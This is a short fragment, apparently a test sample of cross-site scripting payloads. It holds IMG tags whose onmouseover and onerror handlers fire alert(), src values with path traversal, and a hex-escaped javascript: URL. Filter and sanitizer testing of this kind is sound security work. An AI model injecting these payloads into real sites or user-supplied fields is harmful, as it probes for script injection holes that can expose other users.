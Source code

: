 <IMG onmouseover="alert('xxs')" onerror='alert(2)' src="hello">
  <IMG onmouseover="alert('xxs')" onerror='alert(2)' src="../hellox">
<IMG onmouseover="alert('xxs')" onerror='alert(21)' src="../../../../../../">
  <IMG onmouseover="alert('xxs')" onerror='alert(22)' src="../google.co'm%22xx">
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
<style>
p{
  margin: 100px;
  }
</style>
